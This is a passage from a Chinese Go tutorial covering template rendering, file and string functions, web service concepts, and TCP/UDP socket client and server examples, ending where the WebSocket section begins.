### d. Go 模板处理

#### 模板的作用

MVC的设计模式中，Model处理数据，View展现结果，Controller控制用户的请求，至于View层的处理，在很多动态语言里面都是通过在静态HTML中插入动态语言生成的数据，例如 JSP 中通过插入`<%=....=%>`，PHP 中通过插入`<?php.....?>`来实现的。

通过下面这个图可以说明模板的机制：


Web 应用反馈给客户端的信息中的大部分内容是静态的，不变的，而另外少部分是根据用户的请求来动态生成的，例如要显示用户的访问记录列表。用户之间只有记录数据是不同的，而列表的样式则是固定的，此时采用模板可以复用很多静态代码。

#### Go 中的模板

在Go语言中，我们使用`template`包来进行模板处理，使用类似`Parse`、`ParseFile`、`Execute`等方法从文件或者字符串加载模板，然后执行类似上面图片展示的模板的merge操作。

##### 字段操作

Go语言的模板通过`{{}}`来包含需要在渲染时被替换的字段，`{{.}}`表示当前的对象，这和Java或者C++中的this类似，如果要访问当前对象的字段通过`{{.FieldName}}`，但是需要注意一点：这个字段必须是导出的(字段首字母必须是大写的)，否则在渲染的时候就会报错，请看下面的这个例子：

```go
package main

import (
	"html/template"
	"os"
)

type Person struct {
	UserName string
}

func main() {
	t := template.New("fieldname example")
	t, _ = t.Parse("hello {{.UserName}}!")
	p := Person{UserName: "Astaxie"}
	t.Execute(os.Stdout, p)
}
```

上面的代码我们可以正确的输出`hello Astaxie`，但是如果我们稍微修改一下代码，在模板中含有了未导出的字段，那么就会报错

```go
type Person struct {
	UserName string
	email	string  //未导出的字段，首字母是小写的
}

t, _ = t.Parse("hello {{.UserName}}! {{.email}}")
```

上面的代码就会报错，因为我们调用了一个未导出的字段，但是如果我们调用了一个不存在的字段是不会报错的，而是输出为空。

如果模板中输出`{{.}}`，这个一般应用于字符串对象，默认会调用fmt包输出字符串的内容。

##### 输出嵌套字段内容

上面我们例子展示了如何针对一个对象的字段输出，那么如果字段里面还有对象，如何来循环的输出这些内容呢？我们可以使用`{{with …}}…{{end}}`和`{{range …}}{{end}}`来进行数据的输出。

- {{range}} 这个和Go语法里面的range类似，循环操作数据
- {{with}} 操作是指当前对象的值，类似上下文的概念

详细的使用请看下面的例子：

```go
package main

import (
	"html/template"
	"os"
)

type Friend struct {
	Fname string
}

type Person struct {
	UserName string
	Emails   []string
	Friends  []*Friend
}

func main() {
	f1 := Friend{Fname: "minux.ma"}
	f2 := Friend{Fname: "xushiwei"}
	t := template.New("fieldname example")
	t, _ = t.Parse(`hello {{.UserName}}!
			{{range .Emails}}
				an email {{.}}
			{{end}}
			{{with .Friends}}
			{{range .}}
				my friend name is {{.Fname}}
			{{end}}
			{{end}}
			`)
	p := Person{UserName: "Astaxie",
		Emails:  []string{"astaxie@beego.me", "astaxie@gmail.com"},
		Friends: []*Friend{&f1, &f2}}
	t.Execute(os.Stdout, p)
}
```

##### 条件处理

在Go模板里面如果需要进行条件判断，那么我们可以使用和Go语言的`if-else`语法类似的方式来处理，如果pipeline为空，那么if就认为是false，下面的例子展示了如何使用`if-else`语法：

```go
package main

import (
	"os"
	"text/template"
)

func main() {
	tEmpty := template.New("template test")
	tEmpty = template.Must(tEmpty.Parse("空 pipeline if demo: {{if ``}} 不会输出. {{end}}\n"))
	tEmpty.Execute(os.Stdout, nil)

	tWithValue := template.New("template test")
	tWithValue = template.Must(tWithValue.Parse("不为空的 pipeline if demo: {{if `anything`}} 我有内容，我会输出. {{end}}\n"))
	tWithValue.Execute(os.Stdout, nil)

	tIfElse := template.New("template test")
	tIfElse = template.Must(tIfElse.Parse("if-else demo: {{if `anything`}} if部分 {{else}} else部分.{{end}}\n"))
	tIfElse.Execute(os.Stdout, nil)
}
```

> 注意：if里面无法使用条件判断，例如.Mail=="[astaxie@gmail.com](mailto:astaxie@gmail.com)"，这样的判断是不正确的，if里面只能是bool值。

##### pipelines

Unix用户已经很熟悉什么是`pipe`了，`ls | grep "beego"`类似这样的语法你是不是经常使用，过滤当前目录下面的文件，显示含有"beego"的数据，表达的意思就是前面的输出可以当做后面的输入，最后显示我们想要的数据，而Go语言模板最强大的一点就是支持pipe数据，在Go语言里面任何`{{}}`里面的都是pipelines数据，例如我们上面输出的email里面如果还有一些可能引起XSS注入的，那么我们如何来进行转化呢？

```go
{{. | html}}
```

在email输出的地方我们可以采用如上方式可以把输出全部转化html的实体，同理，调用其他的函数也是类似的方式。

##### 模板变量

有时候，我们在模板使用过程中需要定义一些局部变量，我们可以在一些操作中申明局部变量，例如`with``range``if`过程中申明局部变量，这个变量的作用域是`{{end}}`之前，Go语言通过申明的局部变量格式如下所示：

```
$variable := pipeline
```

详细的例子看下面的：

```go
{{with $x := "output" | printf "%q"}}{{$x}}{{end}}
{{with $x := "output"}}{{printf "%q" $x}}{{end}}
{{with $x := "output"}}{{$x | printf "%q"}}{{end}}
```

##### 模板函数

模板在输出对象的字段值时，采用了`fmt`包把对象转化成了字符串。但是有时候我们的需求可能不是这样的，例如有时候我们为了防止垃圾邮件发送者通过采集网页的方式来采集到我们的邮箱信息，我们希望把`@`替换成`at`例如：`astaxie at beego.me`，如果要实现这样的功能，我们就需要自定义函数来做这个功能。

每一个模板函数都有一个唯一值的名字，然后与一个Go函数关联，通过如下的方式来关联

```go
type FuncMap map[string]interface{}
```

例如，如果我们想要的email函数的模板函数名是`emailDeal`，它关联的Go函数名称是`EmailDealWith`,那么我们可以通过下面的方式来注册这个函数

```go
t = t.Funcs(template.FuncMap{"emailDeal": EmailDealWith})
```

`EmailDealWith`这个函数的参数和返回值定义如下：

```go
func EmailDealWith(args …interface{}) string
```

我们来看下面的实现例子：

```go
package main

import (
	"fmt"
	"html/template"
	"os"
	"strings"
)

type Friend struct {
	Fname string
}

type Person struct {
	UserName string
	Emails   []string
	Friends  []*Friend
}

//映射到视图模板中可用的函数
func EmailDealWith(args ...interface{}) string {
	ok := false
	var s string
	if len(args) == 1 {
		s, ok = args[0].(string)
	}
	if !ok {
		s = fmt.Sprint(args...)
	}
	// find the @ symbol
	substrs := strings.Split(s, "@")
	if len(substrs) != 2 {
		return s
	}
	// replace the @ by " at "
	return (substrs[0] + " at " + substrs[1])
}

func main() {
	f1 := Friend{Fname: "minux.ma"}
	f2 := Friend{Fname: "xushiwei"}
	t := template.New("fieldname example")
  //注册模板函数，映射到 go 中的函数
	t = t.Funcs(template.FuncMap{"emailDeal": EmailDealWith})
	t, _ = t.Parse(`hello {{.UserName}}!
				{{range .Emails}}
					an emails {{.|emailDeal}}
				{{end}}
				{{with .Friends}}
				{{range .}}
					my friend name is {{.Fname}}
				{{end}}
				{{end}}
				`)
	p := Person{UserName: "Astaxie",
		Emails:  []string{"astaxie@beego.me", "astaxie@gmail.com"},
		Friends: []*Friend{&f1, &f2}}
	t.Execute(os.Stdout, p)
}
```

上面演示了如何自定义函数，其实，在模板包内部已经有内置的实现函数，下面代码截取自模板包里面

```go
var builtins = FuncMap{
	"and":      and,
	"call":     call,
	"html":     HTMLEscaper,
	"index":    index,
	"js":       JSEscaper,
	"len":      length,
	"not":      not,
	"or":       or,
	"print":    fmt.Sprint,
	"printf":   fmt.Sprintf,
	"println":  fmt.Sprintln,
	"urlquery": URLQueryEscaper,
}
```

##### Must 操作

模板包里面有一个函数`Must`，它的作用是检测模板是否正确，例如大括号是否匹配，注释是否正确的关闭，变量是否正确的书写。接下来我们演示一个例子，用Must来判断模板是否正确：

```go
package main

import (
	"fmt"
	"text/template"
)

func main() {
	tOk := template.New("first")
	template.Must(tOk.Parse(" some static text /* and a comment */"))
	fmt.Println("The first one parsed OK.")

	template.Must(template.New("second").Parse("some static text {{ .Name }}"))
	fmt.Println("The second one parsed OK.")

	fmt.Println("The next one ought to fail.")
	tErr := template.New("check parse error with Must")
	template.Must(tErr.Parse(" some static text {{ .Name }"))
}
```

将输出如下内容：

```
The first one parsed OK.
The second one parsed OK.
The next one ought to fail.
panic: template: check parse error with Must:1: unexpected "}" in command
```

##### 嵌套模板

我们平常开发Web应用的时候，经常会遇到一些模板有些部分是固定不变的，然后可以抽取出来作为一个独立的部分，例如一个博客的头部和尾部是不变的，而唯一改变的是中间的内容部分。所以我们可以定义成`header`、`content`、`footer`三个部分。Go语言中通过如下的语法来申明：

```go
{{define "子模板名称"}} 内容 {{end}}
```

通过如下方式来调用：

```go
{{template "子模板名称"}}
```

接下来我们演示如何使用嵌套模板，我们定义三个文件，`header.tmpl`、`content.tmpl`、`footer.tmpl`文件，里面的内容如下：

```html
//header.tmpl
{{define "header"}}
<html>
<head>
	<title>演示信息</title>
</head>
<body>
{{end}}

//content.tmpl
{{define "content"}}
{{template "header"}}
<h1>演示嵌套</h1>
<ul>
	<li>嵌套使用define定义子模板</li>
	<li>调用使用template</li>
</ul>
{{template "footer"}}
{{end}}

//footer.tmpl
{{define "footer"}}
</body>
</html>
{{end}}
```

演示代码如下：

```go
package main

import (
	"fmt"
	"os"
	"text/template"
)

func main() {
	s1, _ := template.ParseFiles("header.tmpl", "content.tmpl", "footer.tmpl")
	s1.ExecuteTemplate(os.Stdout, "header", nil)
	fmt.Println()
	s1.ExecuteTemplate(os.Stdout, "content", nil)
	fmt.Println()
	s1.ExecuteTemplate(os.Stdout, "footer", nil)
	fmt.Println()
	s1.Execute(os.Stdout, nil)
}
```

通过上面的例子我们可以看到通过`template.ParseFiles`把所有的嵌套模板全部解析到模板里面，其实每一个定义的{{define}}都是一个独立的模板，他们相互独立，是并行存在的关系，内部其实存储的是类似map的一种关系(key是模板的名称，value是模板的内容)，然后我们通过`ExecuteTemplate`来执行相应的子模板内容，我们可以看到header、footer都是相对独立的，都能输出内容，content 中因为嵌套了header和footer的内容，就会同时输出三个的内容。但是当我们执行`s1.Execute`，没有任何的输出，因为在默认的情况下没有默认的子模板，所以不会输出任何的东西。

> 同一个集合类的模板是互相知晓的，如果同一模板被多个集合使用，则它需要在多个集合中分别解析。


### e. 文件操作

以下列举一些常用的目录与文件的操作函数，这些函数都申明在 os 包里面。

#### 目录

##### 新建

- func Mkdir(name string, perm FileMode) error

  创建名称为name的目录，权限设置是perm，例如0777。

- func MkdirAll(path string, perm FileMode) error

  根据path创建多级子目录，例如astaxie/test1/test2。

##### 删除

- func Remove(name string) error

  删除名称为name的目录，当目录下有文件或者其他目录时会出错。

- func RemoveAll(path string) error

  根据path删除多级子目录，如果path是单个名称，那么该目录下的子目录全部删除。

#### 文件

##### 新建

- func Create(name string) (file *File, err Error)

  根据提供的文件名创建新的文件，返回一个文件对象，默认权限是0666的文件，返回的文件对象是可读写的。

- func NewFile(fd uintptr, name string) *File

  根据文件描述符创建相应的文件，返回一个文件对象。

##### 打开

- func Open(name string) (file *File, err Error)

  该方法打开一个名称为name的文件，但是是只读方式，内部实现其实调用了OpenFile。

- func OpenFile(name string, flag int, perm uint32) (file *File, err Error)

  打开名称为name的文件，flag是打开的方式，只读、读写等，perm是权限。

##### 读取

- func (file *File) Read(b []byte) (n int, err Error)

  读取数据到b中。

- func (file *File) ReadAt(b []byte, off int64) (n int, err Error)

  从off开始读取数据到b中。

##### 写入

- func (file *File) Write(b []byte) (n int, err Error)

  写入byte类型的信息到文件。

- func (file *File) WriteAt(b []byte, off int64) (n int, err Error)

  在指定位置开始写入byte类型的信息。

- func (file *File) WriteString(s string) (ret int, err Error)

  写入string信息到文件。

##### 删除

- func Remove(name string) Error

  调用该函数就可以删除文件名为name的文件，其实与删除文件夹的函数相同。


### f. 字符串处理

下文将通过 Go 标准库中的 strings 和 strconv 两个包中的函数来讲解如何进行有效快速的操作，列举一些常用的处理函数。

#### 处理

下面的函数来自于 strings 包。

##### 是否包含子串

- func Contains(s, substr string) bool

  字符串s中是否包含substr，返回bool值

```go
fmt.Println(strings.Contains("seafood", "foo"))
fmt.Println(strings.Contains("seafood", "bar"))
fmt.Println(strings.Contains("seafood", ""))
fmt.Println(strings.Contains("", ""))
//Output:
//true
//false
//true
//true
```

##### 字符串连接

- func Join(a []string, sep string) string

  字符串链接，把slice a通过sep链接起来

```go
s := []string{"foo", "bar", "baz"}
fmt.Println(strings.Join(s, ", "))
//Output:foo, bar, baz		
```

##### 查找子串

- func Index(s, sep string) int

  在字符串s中查找sep所在的位置，返回位置值，找不到返回-1

```go
fmt.Println(strings.Index("chicken", "ken"))
fmt.Println(strings.Index("chicken", "dmr"))
//Output:4
//-1
```

##### 重复字符串

- func Repeat(s string, count int) string

  重复s字符串count次，最后返回重复的字符串

```go
fmt.Println("ba" + strings.Repeat("na", 2))
//Output:banana
```

##### 子串替换

- func Replace(s, old, new string, n int) string

  在s字符串中，把old字符串替换为new字符串，n表示替换的次数，小于0表示全部替换

```go
fmt.Println(strings.Replace("oink oink oink", "k", "ky", 2))
fmt.Println(strings.Replace("oink oink oink", "oink", "moo", -1))
//Output:oinky oinky oink
//moo moo moo
```

##### 字符串分割

- func Split(s, sep string) []string

  把s字符串按照sep分割，返回slice

```go
fmt.Printf("%q\n", strings.Split("a,b,c", ","))
fmt.Printf("%q\n", strings.Split("a man a plan a canal panama", "a "))
fmt.Printf("%q\n", strings.Split(" xyz ", ""))
fmt.Printf("%q\n", strings.Split("", "Bernardo O'Higgins"))
//Output:["a" "b" "c"]
//["" "man " "plan " "canal panama"]
//[" " "x" "y" "z" " "]
//[""]
```

##### 去除首尾子串

- func Trim(s string, cutset string) string

  在s字符串的头部和尾部去除cutset指定的字符串

```go
fmt.Printf("[%q]", strings.Trim(" !!! Achtung !!! ", "! "))
//Output:["Achtung"]
```

##### 去除空格后分割成数组

- func Fields(s string) []string

  去除s字符串的空格符，并且按照空格分割返回slice

```go
fmt.Printf("Fields are: %q", strings.Fields("  foo bar  baz   "))
//Output:Fields are: ["foo" "bar" "baz"]
```

#### 转换

下面的函数来自于 strconv 包。

##### 转换为字符串

- Format 系列函数把其他类型的转换为字符串

```go
package main

import (
	"fmt"
	"strconv"
)

func main() {
	a := strconv.FormatBool(false)
	b := strconv.FormatFloat(123.23, 'g', 12, 64)
	c := strconv.FormatInt(1234, 10)
	d := strconv.FormatUint(12345, 10)
	e := strconv.Itoa(1023)
	fmt.Println(a, b, c, d, e)
}
```

##### 转换为其他类型

- Parse 系列函数把字符串转换为其他类型

```go
package main

import (
	"fmt"
	"strconv"
)
func checkError(e error){
	if e != nil{
		fmt.Println(e)
	}
}
func main() {
	a, err := strconv.ParseBool("false")
	checkError(err)
	b, err := strconv.ParseFloat("123.23", 64)
	checkError(err)
	c, err := strconv.ParseInt("1234", 10, 64)
	checkError(err)
	d, err := strconv.ParseUint("12345", 10, 64)
	checkError(err)
	e, err := strconv.Atoi("1023")
	checkError(err)
	fmt.Println(a, b, c, d, e)
}
```


## *9. Web 服务*

### a. 基础概念

在进入细节分析之前，我们先来分清 Web 服务中经常提到的几个概念。

#### SOA

SOA (Service-oriented architecture) ，面向服务的架构，提倡面向服务的设计。

**SOA 不是 Web service，但 Web service 是目前最适合实现 SOA 的技术，SOA 也不依赖于任何技术，SOAP、RPC、REST 是对 SOA 的不同实现。**

通俗点来讲，SOA 提倡将不同应用程序的业务功能封装成“服务”并宿主起来，通常以接口和契约的形式暴露并提供给外界应用访问（通过交换消息），达到不同系统可重用的目的。

微服务是 SOA 发展出来的产物，它是一种比较现代化的细粒度的 SOA 实现方式，是倾向于分布式去中心化的部署方式。

#### 实现 Web service 的三种方式

##### 1. RPC

RPC (remote procedure call protocol) ，远程过程调用协议，主要面向方法。例如 dubbo、SpringCloud。

**RPC 就是从一台机器 (客户端) 上通过参数传递的方式调用另一台机器 (服务器) 上的一个函数或方法 (可以统称为服务) 并得到返回的结果。**

RPC 会隐藏底层的通讯细节 (不需要直接处理 Socket 通讯或 HTTP 通讯) 。

RPC 是一个请求响应模型。客户端发起请求，服务器返回响应 (类似于 HTTP 的工作方式) 。

RPC 在使用形式上像调用本地函数 (或方法) 一样去调用远程的函数 (或方法) 。


##### 2. SOAP

SOAP (Simple Object Access Protocol) ，简单对象访问协议，是一种轻量的、简单的、基于 XML 的协议的规范。**SOAP 协议和 HTTP 协议一样，都是底层的通信协议，只是请求包的格式不同而已，SOAP包是 XML 格式的。**

SOAP 的消息是基于 xml 并封装成了符合 HTTP 协议，因此，它符合任何路由器、 防火墙或代理服务器的要求。

SOAP 可以使用任何语言来完成，只要发送正确的 soap 请求即可，基于 soap 的服务可以在任何平台无需修改即可正常使用。

##### 3. REST

REST (Representational state transfer) ，表征性状态转移，主要面向资源。

REST 不是一种协议，它是一种架构，一种 Web Service 能够如果满足 REST 的几个条件, 通常就称这个系统是 Restful 的。

**RESTful 的核心就是服务端将 资源 发布为 URI，客户端通过 URI 访问资源，并通过 HTTP Method 表示要对资源进行的操作。**


### b. Socket 编程

#### 什么是 Socket

Socket起源于Unix，而Unix基本哲学之一就是“一切皆文件”，都可以用“打开open –> 读写write/read –> 关闭close”模式来操作。Socket就是该模式的一个实现，网络的Socket数据传输是一种特殊的I/O，Socket也是一种文件描述符。Socket也具有一个类似于打开文件的函数调用：Socket()，该函数返回一个整型的Socket描述符，随后的连接建立、数据传输等操作都是通过该Socket实现的。

常用的Socket类型有两种：流式Socket（SOCK_STREAM）和数据报式Socket（SOCK_DGRAM）。流式是一种面向连接的Socket，针对于面向连接的TCP服务应用；数据报式Socket是一种无连接的Socket，对应于无连接的UDP服务应用。

#### Socket 通信原理

网络中的进程之间如何通过 Socket 通信呢？首要解决的问题是如何唯一标识一个进程，否则通信无从谈起！在本地可以通过进程PID来唯一标识一个进程，但是在网络中这是行不通的。其实 TCP/IP 协议族已经帮我们解决了这个问题，网络层的“ ip 地址”可以唯一标识网络中的主机，而传输层的“协议+端口”可以唯一标识主机中的应用程序（进程）。这样利用三元组（ip地址，协议，端口）就可以标识网络的进程了，网络中需要互相通信的进程，就可以利用这个标志在他们之间进行交互。

**Socket 其实算不上一个网络协议，只是 [OSI 网络七层协议模型](https://www.jianshu.com/p/4b9d43c0571a) 中应用层与传输层之间的一个抽象层，它通过门面模式把复杂的 TCP/IP 协议族的细节隐藏起来，相当于一组编程接口 (API) 。**


使用 TCP/IP 协议的应用程序通常采用应用编程接口：UNIX BSD 的套接字 (socket) 来实现网络进程之间的通信。

#### IPv4 地址

目前的全球因特网所采用的协议族是TCP/IP协议。IP是TCP/IP协议中网络层的协议，是TCP/IP协议族的核心协议。目前主要采用的IP协议的版本号是4(简称为IPv4)，发展至今已经使用了30多年。

IPv4 的地址位数为32位，也就是最多有2的32次方的网络设备可以联到 Internet 上。近十年来由于互联网的蓬勃发展，IP 位址的需求量愈来愈大，使得 IP 位址的发放愈趋紧张，目前 IPV4 的地址已经发放完毕，目前很多服务器的IP都是一个宝贵的资源。

地址格式类似这样：127.0.0.1 172.122.121.111

#### IPv6 地址

IPv6 是下一版本的互联网协议，也可以说是下一代互联网的协议，它是为了解决 IPv4 在实施过程中遇到的各种问题而被提出的，IPv6采用128位地址长度，几乎可以不受限制地提供地址。按保守方法估算IPv6实际可分配的地址，整个地球的每平方米面积上仍可分配1000多个地址。在IPv6的设计过程中除了一劳永逸地解决了地址短缺问题以外，还考虑了在IPv4中解决不好的其它问题，主要有端到端IP连接、服务质量（QoS）、安全性、多播、移动性、即插即用等。

地址格式类似这样：2002:c0e8:82e7:0:0:0:c0e8:82e7

#### Go 支持的 IP 类型

在Go的`net`包中定义了很多类型、函数和方法用来网络编程，其中IP的定义如下：

```go
type IP []byte
```

在`net`包中有很多函数来操作IP，但是其中比较有用的也就几个，其中`ParseIP(s string) IP`函数会把一个IPv4或者IPv6的地址转化成IP类型，请看下面的例子:

```go
package main
import (
	"net"
	"os"
	"fmt"
)
func main() {
	if len(os.Args) != 2 {
		fmt.Fprintf(os.Stderr, "Usage: %s ip-addr\n", os.Args[0])
		os.Exit(1)
	}
	name := os.Args[1]
	addr := net.ParseIP(name)
	if addr == nil {
		fmt.Println("Invalid address")
	} else {
		fmt.Println("The address is ", addr.String())
	}
	os.Exit(0)
}
```

执行之后你就会发现只要你输入一个IP地址就会给出相应的IP格式。

#### TCP Socket

当我们知道如何通过网络端口访问一个服务时，那么我们能够做什么呢？作为客户端来说，我们可以通过向远端某台机器的的某个网络端口发送一个请求，然后得到在机器的此端口上监听的服务反馈的信息。作为服务端，我们需要把服务绑定到某个指定端口，并且在此端口上监听，当有客户端来访问时能够读取信息并且写入反馈信息。

在Go语言的`net`包中有一个类型`TCPConn`，这个类型可以用来作为客户端和服务器端交互的通道，他有两个主要的函数：

```go
func (c *TCPConn) Write(b []byte) (int, error)
func (c *TCPConn) Read(b []byte) (int, error)
```

`TCPConn`可以用在客户端和服务器端来读写数据。

还有我们需要知道一个`TCPAddr`类型，他表示一个TCP的地址信息，他的定义如下：

```go
type TCPAddr struct {
	IP IP
	Port int
	Zone string // IPv6 scoped addressing zone
}
```

在Go语言中通过`ResolveTCPAddr`获取一个`TCPAddr`

```go
func ResolveTCPAddr(net, addr string) (*TCPAddr, os.Error)
```

- net参数是"tcp4"、"tcp6"、"tcp"中的任意一个，分别表示TCP(IPv4-only), TCP(IPv6-only)或者TCP(IPv4, IPv6的任意一个)
- addr表示域名或者IP地址，例如"[www.google.com:80](http://www.google.com/)" 或者"127.0.0.1:22"

##### Client

Go语言中通过net包中的`DialTCP`函数来建立一个TCP连接，并返回一个`TCPConn`类型的对象，当连接建立时服务器端也创建一个同类型的对象，此时客户端和服务器端通过各自拥有的`TCPConn`对象来进行数据交换。一般而言，客户端通过`TCPConn`对象将请求信息发送到服务器端，读取服务器端响应的信息。服务器端读取并解析来自客户端的请求，并返回应答信息，这个连接只有当任一端关闭了连接之后才失效，不然这连接可以一直在使用。建立连接的函数定义如下：

```go
func DialTCP(network string, laddr, raddr *TCPAddr) (*TCPConn, error)
```

- network参数是"tcp4"、"tcp6"、"tcp"中的任意一个，分别表示TCP(IPv4-only)、TCP(IPv6-only)或者TCP(IPv4,IPv6的任意一个)
- laddr表示本机地址，一般设置为nil
- raddr表示远程的服务地址

示例如下：

```go
package main

import (
	"fmt"
	"io/ioutil"
	"net"
	"os"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Fprintf(os.Stderr, "Usage: %s host:port ", os.Args[0])
		os.Exit(1)
	}
	service := os.Args[1]
	tcpAddr, err := net.ResolveTCPAddr("tcp4", service)
	checkError(err)
	conn, err := net.DialTCP("tcp", nil, tcpAddr)
	checkError(err)
	_, err = conn.Write([]byte("HEAD / HTTP/1.0\r\n\r\n"))
	checkError(err)
	// result, err := ioutil.ReadAll(conn)
	result := make([]byte, 256)
	_, err = conn.Read(result)
	checkError(err)
	fmt.Println(string(result))
	os.Exit(0)
}
func checkError(err error) {
	if err != nil {
		fmt.Fprintf(os.Stderr, "Fatal error: %s", err.Error())
		os.Exit(1)
	}
}
```

通过上面的代码我们可以看出：首先程序将用户的输入作为参数`service`传入`net.ResolveTCPAddr`获取一个tcpAddr,然后把tcpAddr传入DialTCP后创建了一个TCP连接`conn`，通过`conn`来发送请求信息，最后通过`ioutil.ReadAll`从`conn`中读取全部的文本，也就是服务端响应反馈的信息。

##### Server

上面我们编写了一个TCP的客户端程序，也可以通过net包来创建一个服务器端程序，在服务器端我们需要绑定服务到指定的非激活端口，并监听此端口，当有客户端请求到达的时候可以接收到来自客户端连接的请求。net包中有相应功能的函数，函数定义如下：

```go
func ListenTCP(network string, laddr *TCPAddr) (*TCPListener, error)
func (l *TCPListener) Accept() (Conn, error)
```

参数说明同 DialTCP 的参数一样。下面我们实现一个简单的时间同步服务，监听 1200 端口：

```go
package main

import (
	"fmt"
	"net"
	"os"
	"time"
)

func main() {
	service := ":1200"
	tcpAddr, err := net.ResolveTCPAddr("tcp4", service)
	checkError(err)
	listener, err := net.ListenTCP("tcp", tcpAddr)
	checkError(err)
	for {
		conn, err := listener.Accept()
		if err != nil {
			continue
		}
		go handleClient(conn)
	}
}

func handleClient(conn net.Conn) {
	defer conn.Close()
	daytime := time.Now().String()
	conn.Write([]byte(daytime)) // don't care about return value
}

func checkError(err error) {
	if err != nil {
		fmt.Fprintf(os.Stderr, "Fatal error: %s", err.Error())
		os.Exit(1)
	}
}
```

上面的服务跑起来之后，当有新的客户端请求到达并`Accept`该请求的时候会反馈当前的时间信息。值得注意的是，在代码中`for`循环里，当有错误发生时，直接continue而不是退出，是因为在服务器端跑代码的时候，当有错误发生的情况下最好是由服务端记录错误，然后当前连接的客户端直接报错而退出，从而不会影响到当前服务端运行的整个服务。

通过把业务处理分离到函数`handleClient`，我们就可以进一步地实现多并发执行了。

这个服务端没有处理客户端实际请求的内容。如果我们需要通过从客户端发送不同的请求来获取不同的时间格式，而且需要一个长连接，该怎么做呢？我们改造一下：

```go
package main

import (
	"fmt"
	"net"
	"os"
	"time"
	"strconv"
	"strings"
)

func main() {
	service := ":1200"
	tcpAddr, err := net.ResolveTCPAddr("tcp4", service)
	checkError(err)
	listener, err := net.ListenTCP("tcp", tcpAddr)
	checkError(err)
	for {
		conn, err := listener.Accept()
		if err != nil {
			continue
		}
		go handleClient(conn)
	}
}

func handleClient(conn net.Conn) {
	conn.SetReadDeadline(time.Now().Add(2 * time.Minute)) // set 2 minutes timeout
	request := make([]byte, 128) // set maxium request length to 128B to prevent flood attack
	defer conn.Close()  // close connection before exit
	for {
		read_len, err := conn.Read(request)

		if err != nil {
			fmt.Println(err)
			break
		}

    if read_len == 0 {
      break // connection already closed by client
    } else if strings.TrimSpace(string(request[:read_len])) == "timestamp" {
      daytime := strconv.FormatInt(time.Now().Unix(), 10)
      conn.Write([]byte(daytime))
    } else {
      daytime := time.Now().String()
      conn.Write([]byte(daytime))
    }

    request = make([]byte, 128) // clear last read content
	}
}

func checkError(err error) {
	if err != nil {
		fmt.Fprintf(os.Stderr, "Fatal error: %s", err.Error())
		os.Exit(1)
	}
}
```

在上面这个例子中，我们使用`conn.Read()`不断读取客户端发来的请求。由于我们需要保持与客户端的长连接，所以不能在读取完一次请求后就关闭连接。由于`conn.SetReadDeadline()`设置了超时，当一定时间内客户端无请求发送，`conn`便会自动关闭，下面的for循环即会因为连接已关闭而跳出。需要注意的是，`request`在创建时需要指定一个最大长度以防止flood attack；每次读取到请求处理完毕后，需要清理request，因为`conn.Read()`会将新读取到的内容append到原内容之后。

##### 控制 TCP 连接

TCP有很多连接控制函数，我们平常用到比较多的有如下几个函数：

```go
func DialTimeout(net, addr string, timeout time.Duration) (Conn, error)
```

设置建立连接的超时时间，客户端和服务器端都适用，当超过设置时间时，连接自动关闭。

```go
func (c *TCPConn) SetReadDeadline(t time.Time) error
func (c *TCPConn) SetWriteDeadline(t time.Time) error
```

用来设置写入/读取一个连接的超时时间。当超过设置时间时，连接自动关闭。

```go
func (c *TCPConn) SetKeepAlive(keepalive bool) os.Error
```

设置keepAlive属性，是操作系统层在TCP上没有数据和ACK的时候，会间隔性的发送keepalive包，操作系统可以通过该包来判断一个TCP连接是否已经断开，在windows上默认2个小时没有收到数据和keepalive包的时候认为TCP连接已经断开，这个功能和我们通常在应用层加的心跳包的功能类似。

更多的内容请查看`net`包的文档。

#### UDP Socket

Go 语言包中处理UDP Socket和TCP Socket不同的地方就是在服务器端处理多个客户端请求数据包的方式不同,UDP缺少了对客户端连接请求的Accept函数。其他基本几乎一模一样，只有TCP换成了UDP而已。UDP的几个主要函数如下所示：

```go
func ResolveUDPAddr(net, addr string) (*UDPAddr, os.Error)
func DialUDP(net string, laddr, raddr *UDPAddr) (c *UDPConn, err os.Error)
func ListenUDP(net string, laddr *UDPAddr) (c *UDPConn, err os.Error)
func (c *UDPConn) ReadFromUDP(b []byte) (n int, addr *UDPAddr, err os.Error)
func (c *UDPConn) WriteToUDP(b []byte, addr *UDPAddr) (n int, err os.Error)
```

##### Client

```go
package main

import (
	"fmt"
	"net"
	"os"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Fprintf(os.Stderr, "Usage: %s host:port", os.Args[0])
		os.Exit(1)
	}
	service := os.Args[1]
	udpAddr, err := net.ResolveUDPAddr("udp4", service)
	checkError(err)
	conn, err := net.DialUDP("udp", nil, udpAddr)
	checkError(err)
	_, err = conn.Write([]byte("anything"))
	checkError(err)
	var buf [512]byte
	n, err := conn.Read(buf[0:])
	checkError(err)
	fmt.Println(string(buf[0:n]))
	os.Exit(0)
}
func checkError(err error) {
	if err != nil {
		fmt.Fprintf(os.Stderr, "Fatal error %s", err.Error())
		os.Exit(1)
	}
}
```

##### Server

```go
package main

import (
	"fmt"
	"net"
	"os"
	"time"
)

func main() {
	service := ":1200"
	udpAddr, err := net.ResolveUDPAddr("udp4", service)
	checkError(err)
	conn, err := net.ListenUDP("udp", udpAddr)
	checkError(err)
	for {
		handleClient(conn)
	}
}
func handleClient(conn *net.UDPConn) {
	var buf [512]byte
	_, addr, err := conn.ReadFromUDP(buf[0:])
	if err != nil {
		return
	}
	daytime := time.Now().String()
	conn.WriteToUDP([]byte(daytime), addr)
}
func checkError(err error) {
	if err != nil {
		fmt.Fprintf(os.Stderr, "Fatal error %s", err.Error())
		os.Exit(1)
	}
}
```


### c. WebSocket

**WebSocket 同 HTTP 一样也是应用层的协议，但是它是一种双向通信协议，是建立在 TCP 之上的。**

WebSocket 是HTML5的重要特性，它实现了基于浏览器的远程socket，它使浏览器和服务器可以进行全双工通信，许多浏览器（Firefox、Google Chrome和Safari）都已对此做了支持。

在 WebSocket 出现之前，为了实现即时通信，采用的技术都是“轮询”，即在特定的时间间隔内，由浏览器对服务器发出HTTP Request，服务器在收到请求后，返回最新的数据给浏览器刷新。轮询的缺点在于会导致过多不必要的请求，浪费流量和服务器资源，每一次请求、应答，都浪费了一定流量在相同的头部信息上。

WebSocket 采用了一些特殊的报头，使得浏览器和服务器只需要通过 HTTP 协议做一个握手的动作，就可以在浏览器和服务器之间建立一条 TCP 的连接通道。且此连接会保持在活动状态，你可以使用 JavaScript 来向连接写入或从中接收数据，就像在使用一个常规的TCP Socket一样。它解决了Web实时化的问题，相比传统HTTP有如下好处：

